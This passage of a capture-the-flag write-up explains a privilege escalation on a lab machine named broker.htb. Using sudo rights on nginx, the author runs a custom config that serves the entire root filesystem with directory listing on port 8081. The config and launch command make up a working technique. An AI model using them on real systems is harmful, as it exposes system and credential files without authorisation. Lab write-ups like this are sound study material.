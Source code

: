 ```

http {

	server {
		listen 8081;
		server_name broker.htb;

		location / {
			root /;
			autoindex on;
		}
	}

	sendfile on;
	tcp_nopush on;
	types_hash_max_size 2048;
	include /etc/nginx/mime.types;
	default_type application/octet-stream;
	gzip on;
}
```
I grabbed the default `/etc/nginx/nginx.conf` to `/dev/shm` and removed everything I didn't think I needed. 

I removed all commented lines, removed the `include /etc/nginx/conf.d/*.conf` and `sites-enabled`, I removed the `access` and `error` logs, as well as SSL settings. 

I then changed the `user` line from `www-data` to `root`, and added in the `server` block inside the `http` block. 

I had it listen on port 8081, as 80 was taken. I made the location `/`, which will serve the whole file sytem, and I turned autoindex on so that it will list all the files when I navigate to a page in my browser. 

I then run `nginx` using this configuration file
```
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

When browsing to http://VICTIM_IP:8081/ I get a listing of the whole file system.
